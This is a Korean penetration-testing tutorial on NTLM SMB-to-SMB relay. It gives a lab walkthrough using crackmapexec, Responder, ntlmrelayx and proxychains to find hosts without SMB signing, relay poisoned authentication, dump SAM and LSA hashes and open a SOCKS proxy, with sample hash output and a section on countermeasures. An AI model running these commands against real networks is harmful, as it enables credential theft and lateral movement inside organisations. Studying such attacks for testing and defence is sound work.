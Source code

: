 # SMB to SMB

### **SMB to SMB 릴레이**

LLMNR/NBT-NS, MITM6, 강제 인증 등으로 통해 들어오는 SMB 기반 인증 트래픽을 다른 SMB 서비스에게 릴레이하는 공격이다. 이 릴레이 공격을 바탕으로 타겟 호스트의 SAM 데이터베이스를 덤프하거나, SOCKS Proxy를 구축하거나, 원격 코드를 실행할 수 있다.

NTLM 릴레이 공격을 하려면 3개의 구성요소가 필요하다.

1. 릴레이 호스트 - 사용자 인증 트래픽을 공격자 호스트에게 보내는, 릴레이를 "할" 호스트
2. 공격자 호스 - 중간자 포지션에서 릴레이 공격을 실행하는 호스트
3. 타겟 호스트 - 공격자로부터 릴레이 호스트의 트래픽을 받는, 릴레이 공격을 "당할" 호스트. SMB Signing 이 비활성화 되어 있어야 릴레이가 가능하다.

SMB to SMB 릴레이 때는 트리거된 인증 트래픽의 유저가 타겟 호스트의 로컬 관리자 (Local Administrator) 권한을 갖고 있어야 유용한 정보를 얻을 때가 많다. 따라서 머신 계정의 인증 트래픽을 받는 강제 인증을 트리거로 사용하면 SMB to SMB 릴레이는 큰 도움이 안될때가 많다. 머신 계정은 특별한 설정이 있지 않는 한 로컬 관리자 권한이 없기 때문이다.

* **예 - 성공)** 도메인 어드민이 트리거한 LLMNR/NBT-NS 포이즈닝 -> 릴레이 -> 타겟 호스트의 SAM Dump 성공. 도메인 어드민은 왠만한 타겟 호스트들의 로컬 관리자 권한을 갖고 있기 때문.
* **예 - 실패)** 도메인 컨트롤러의 Petitpotam 을 이용한 강제 인증 트리거 -> 릴레이 -> 타겟 호스트의 SAM Dump 실패. 도메인 컨트롤러의 머신 계정은 타겟 호스트의 로컬 관리자 권한이 없기 때문.
* **예 - 성공)** 타겟 호스트의 로컬 관리자 권한을 갖고 있는 도메인 유저 계정이 트리거한 LLMNR/NBT-NS 포이즈닝 -> 릴레이 -> 타겟 호스트의 SAM Dump 성공!

### 실습

NTLM 릴레이 공격은 다음과 같은 순서로 이뤄진다.

1. SMB Signing 이 비활화 되어 있는 타겟 호스트를 찾는다.
2. LLMNR/NBT-NS, 강제 인증, MITM6 등의 방법으로 릴레이 공격을 시작한다.
3. `Ntlmrelayx` 등의 툴을 써서 들어오는 인증 트래픽을 #1 에서 찾은 타겟호스트들로 릴레이 공격을 한다. 공격 방법은 다음과 같다:
   1. SAM 데이터베이스 덤프 - `ntlmrelayx` 의 기본적인 공격이다.
   2. SOCKS proxy - SOCKS 프록시를 구축한다.
   3. ADCS - ADCS 관련 공격을 시도해 인증서 등을 발급받는다.
   4. Command Execution - 명령어를 실행한다.

#### 1. SMB Signing 비활성화 되어 있는 호스트 찾기

릴레이 공격에 앞서 SMB Signing 이 비활성화 되어 있는 타겟 호스트들을 찾는다.

```
# SMB Signing 비활성화 호스트 찾기 
cme smb <file/CIDR/target> --gen-relay relay.txt 

# 예시 
cme smb 192.168.40.150/26 --gen-relay relay.txt
SMB         192.168.40.151  445    WKSTN01          [*] Windows 10.0 Build 19041 x64 (name:WKSTN01) (domain:choi.local) (signing:False) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
```

#### 2-1. LLMNR/NBT-NS 포이즈닝 + SMB to SMB 릴레이 공격 - SAM Dump

위에서 `192.168.40.151` 호스트의 `SMB Signing: False` 설정을 확인했다. 이를 바탕으로 LLMNR/NBT-NS 포이즈닝 + SMB to SMB 릴레이 공격을 시도한다.

```
# 1. ntlmrelayx 세팅
python3 ntlmrelayx.py -tf <relay-file> -smb2support 
python3 ntlmrelayx.py -tf ~/relay.txt -smb2support 

# 2. Responder 세팅 
responder -I <NIC> -v 
responder -I eth1 -v 

# 3. < LLMNR / NBT-NS 트리거 - 실습에서는 explorer에서 존재하지 않은 호스트 검색 > 

# Responder 출력 
[*] [MDNS] Poisoned answer sent to ::ffff:192.168.40.150 for name wronghosts.local
[*] [LLMNR]  Poisoned answer sent to ::ffff:192.168.40.150 for name wronghosts

# ntlmrelayx 의 SAM Dump 출력 
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[*] SMBD-Thread-7 (process_request_thread): Connection from CHOI/ADMINISTRATOR@192.168.40.150 controlled, but there are no more targets left!
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:a819c0c224c4e483fe3b5a0df7eb87d8:::
backdoor:1002:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Done dumping SAM hashes for host: 192.168.40.151
```

#### 2-2. LLMNR/NBT-NS 포이즈닝 + SMB to SMB 릴레이 공격 - SOCKS 프록시

```
# 1. ntlmrelayx 세팅
python3 ntlmrelayx.py -tf <relay-file> -smb2support 
python3 ntlmrelayx.py -tf ~/relay.txt -smb2support 

# 2. Responder 세팅 
responder -I <NIC> -v 
responder -I eth1 -v 

# 3. < LLMNR / NBT-NS 트리거 - 실습에서는 explorer에서 존재하지 않은 호스트 검색 > 

# ntlmrelayx SOCKS 프록시 출력 
[*] SMBD-Thread-9 (process_request_thread): Connection from CHOI/ADMINISTRATOR@192.168.40.150 controlled, attacking target smb://192.168.40.151
[*] Authenticating against smb://192.168.40.151 as CHOI/ADMINISTRATOR SUCCEED
[*] SOCKS: Adding CHOI/ADMINISTRATOR@192.168.40.151(445) to active SOCKS connection. Enjoy

ntlmrelayx> socks
Protocol  Target          Username            AdminStatus  Port 
--------  --------------  ------------------  -----------  ----
SMB       192.168.40.151  CHOI/ADMINISTRATOR  TRUE         445

# 4. proxychain 을 이용해 위에서 얻은 프록시로 명령어 실행 
proxychains crackmapexec smb 192.168.40.151 -u ADMINISTRATOR -p '' -d CHOI          

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.40.151:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.40.151:135 <--denied
SMB         192.168.40.151  445    WKSTN01          [*] Windows 10.0 Build 19041 (name:WKSTN01) (domain:CHOI) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.40.151:445  ...  OK
SMB         192.168.40.151  445    WKSTN01          [+] CHOI\ADMINISTRATOR: (Pwn3d!)

# 5. proxychains + cme 콤보 (SAM 덤프, LSA 덤프, share) 
proxychains crackmapexec smb 192.168.40.151 -u ADMINISTRATOR -p '' -d CHOI --sam 
proxychains crackmapexec smb 192.168.40.151 -u ADMINISTRATOR -p '' -d CHOI --lsa 
```

SOCKS 프록시를 이용할 때는 주의할 점은 다음과 같다:

1. `/etc/proxychains4.conf` 파일의 끝에 `[ProxyList]`내용을 ntlmrelayx의 기본 SOCKS 프록시 포트인 1080으로 설정해준다.
2. proxychains <명령어> 를 사용 할 때는 alias 를 사용할 수 없다. 이전까지 `cme` 를 이용했다면, `proxychains` 를 이용할 때는 `proxychains crackmapexec` 이라고 다 쳐주자.
3. proxychains + crackmapexec 을 이용할 때는 유저 이름과 도메인을 ntlmrelayx 에 나온 그대로 설정해준다. ntlmrelayx 에서 `CHOI/ADMINISTRATOR` 로 나왔으니, crackmapexec 도 유저이름은 `ADMINISTRATOR`, 도메인은 `CHOI` 로 설정한다.

```
# /etc/proxychains4.conf 파일에 127.0.0.1 1080 추가 
 
[ProxyList]
# add proxy here ..
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks4 127.0.0.1 1080
```

### 대응 방안

* SMB Signing 을 활성화 시켜준다. 윈도우 서버에서는 기본적으로 활성화 되어 있지만, 하위 호환성이나 다른 이유 때문에 비활성화 되어 있는 경우도 있다.
* `Computer Configuration\Policies\Windows Settings\Security Settings\Local Policies\Security Options\Microsoft network server: Digitally Sign communications (always)` 를 활성화 한다.
* `Computer Configuration\Policies\Windows Settings\Security Settings\Local Policies\Security Options\Microsoft network server: Digitally Sign communications (if client agrees)` 를 활성화 한다.

![](<../../.gitbook/assets/image (41).png>)

### 레퍼런스

{% embed url="https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/" %}

{% embed url="https://www.secureauth.com/blog/playing-with-relayed-credentials/" %}

{% embed url="https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/" %}
